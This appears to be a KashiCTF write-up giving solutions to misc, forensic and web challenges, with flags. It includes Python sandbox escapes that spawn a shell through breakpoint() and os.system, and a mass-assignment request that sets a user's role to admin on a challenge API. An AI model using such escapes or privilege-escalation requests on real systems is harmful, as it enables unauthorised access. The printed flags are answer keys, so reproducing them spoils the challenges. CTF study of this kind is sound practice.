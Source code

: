 # Misc

### Easy Jail 

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### Easy Jail 2 

```
breakpoint()
import os; os.system("sh")
cd / && cat flag.txt
```

### SNOWy Evening

`stegsnow -C -p "Aakash" poemm.txt`

output : https://pastebin.com/HVQfa14Z

https://mysterytoolbox.organisingchaos.com/Ciphers/cipher/Moo

`KashiCTF{Love_Hurts_5734b5f}`

### Self Destruct

`grep -hnra fLaG 0.img`

`KashiCTF{rm_rf_no_preserve_root_Am_1_Right??_No_Err0rs_4ll0wed_Th0}`

### Final Game?

Exporting the chess and we can use https://incoherency.co.uk/chess-steg/ to decrypt the data.

`KashiCTF{Will_This_Be_My_Last_Game_e94fab41}`

### Game 2 - Wait

We identify coordnets  within the program, and we can create a script to decrypt them to potentialy form an image as the flag.

```py
import matplotlib
matplotlib.use('Agg')

import matplotlib.pyplot as plt

coordinates = [
    (232,128),(232,80),(232,96),(232,112),(232,144),(232,160),(232,176),(248,112),
    (265,103),(281,87),(248,128),(264,144),(272,160),(280,176),(343,120),(327,128),
    (319,144),(319,160),(327,176),(343,176),(359,176),(367,160),(367,144),(367,128),
    (359,120),(375,168),(391,176),(343,120),(327,128),(327,176),(343,176),(359,176),
    (367,160),(367,144),(367,128),(359,120),(375,168),(391,176),(335,376),(335,360),
    (335,344),(335,328),(335,312),(335,296),(351,328),(367,320),(375,304),(375,376),
    (415,376),(415,360),(415,344),(415,328),(415,312),(415,296),(431,312),(447,304),
    (463,296),(367,360),(351,344),(471,104),(455,104),(439,104),(423,112),(423,128),
    (423,144),(439,144),(455,144),(471,144),(471,160),(463,177),(455,177),(439,177),
    (423,177),(513,89),(513,121),(513,137),(513,153),(513,169),(513,177),(513,105),
    (529,145),(545,145),(553,153),(553,169),(553,177),(185,291),(185,323),(185,339),
    (185,355),(185,371),(185,379),(185,307),(201,347),(217,347),(225,355),(225,371),
    (225,379),(977,291),(977,323),(977,339),(977,355),(977,371),(977,379),(977,307),
    (993,347),(1009,347),(1017,355),(1017,371),(1017,379),(593,177),(593,161),
    (593,145),(593,129),(593,89),(693,84),(677,84),(661,84),(645,84),(629,84),
    (629,100),(629,116),(629,132),(629,148),(629,164),(629,180),(645,180),
    (661,180),(677,180),(693,180),(149,284),(133,284),(117,284),(101,284),
    (85,284),(85,300),(85,316),(85,332),(85,348),(85,364),(85,380),(101,380),
    (117,380),(133,380),(149,380),(733,84),(749,84),(765,84),(781,84),(797,84),
    (765,100),(765,116),(765,132),(765,148),(765,164),(765,180),(853,180),
    (853,164),(853,148),(853,132),(853,116),(853,100),(853,84),(869,84),
    (885,84),(901,84),(917,84),(869,124),(885,124),(901,124),(45,260),
    (29,276),(37,292),(37,308),(29,324),(13,340),(29,353),(37,369),
    (37,385),(29,400),(45,416),(1062,257),(1076,270),(1068,286),(1068,302),
    (1076,318),(1092,334),(1077,350),(1069,366),(1069,382),(1077,398),
    (1061,414),(301,336),(301,352),(301,368),(301,376),(301,320),
    (301,304),(285,344),(269,344),(253,344),(261,336),(269,320),
    (285,304),(301,288),(525,336),(525,352),(525,368),(525,376),
    (565,376),(581,376),(597,376),(613,376),(629,376),(717,376),
    (701,360),(693,344),(685,328),(677,312),(669,296),(661,280),
    (733,362),(741,346),(749,330),(757,314),(765,298),(773,282),
    (797,322),(805,338),(821,354),(837,346),(845,330),(851,318),
    (819,366),(811,382),(891,318),(891,334),(891,350),(891,366),
    (899,382),(915,382),(931,382),(939,374),(939,358),(939,342),
    (939,326),(939,318),(525,320),(525,304),(509,344),(493,344),
    (477,344),(485,336),(493,320),(509,304),(525,288)
]

x_vals, y_vals = zip(*coordinates)

plt.figure(figsize=(10, 6))
plt.scatter(x_vals, y_vals, s=2, color="black")

plt.gca().invert_yaxis()

plt.axis("equal")

plt.title("Extracted Vector-Based Image")

plt.savefig("output.png", dpi=300)
```

`KashiCTF{Ch4kr4_Vyuh}`

# Forensic

### Memories Bring Back You
`grep -ra "KashiCTF" <file location>`

```
�]h��D�A7���0x\K��dk��K��dk��K��dk��K��dk���`�`HK��dk��
image_410.jpg�H�@�
                  �t
                    �t
                      2�������yGFILE|H8`�`H�
                                            �dk���5�]h���5�]h��q�a���0x\�
                                                                         �dk���
                                                                               �dk���
                                                                                     �dk���
image_414.jpg�H�@�.cnc2��������yGFILE0xH8`�`H6��dk���^h��_h������_h���~n*���0x\6��dk��6��dk��6��dk��6��dk���.
                   �.
image_418.jpg�H�@�;yN;yNJ��ְ����J�GFILE02��������yGFILE0;pH8`�`Hh2�dk���(bh���(bh��B+���0x\h2�dk��h2�dk��h2�dk��h2�dk��pimage_419.jpg�H�@p+�f+�f+2�&������yGFILE0\�H8`�`H
                                                 F�dk����ch����ch����y���0x\
                                                                            F�dk��
                                                                                  F�dk��
                                                                                        F�dk��
image_421.jpg�H�@�(x�(x�(2�]��X8not_hidden.txtKashiCTF{DF1R_g03555_Brrrr}
```


`KashiCTF{DF1R_g03555_Brrrr}`

### Corruption

using Autopsy we can search "KashiCTF" and we get the flag.


### Look at Me

Use silent eye and decrypt the image and get the flag.


# Web

### SuperFastAPI

`http://kashictf.iitbhucybersec.in:<port>/redoc` - Document of all the headers.

1. Create an account `http://kashictf.iitbhucybersec.in:<port>/register/test`

add 
```
{
"fname": "John",
"lname": "Doe",
"email": "john.doe@example.com",
"gender": "male"
}
```

2. Update the role since it asks for admin when changing register to flag.

`http://kashictf.iitbhucybersec.in:<port>/update/test`

include

```
{
  "role": "admin"
}
```

3. Head to `http://kashictf.iitbhucybersec.in:<port>/flag/test`

`{"message":"KashiCTF{m455_4551gnm3n7_ftw_SksZ90TZu}"}`
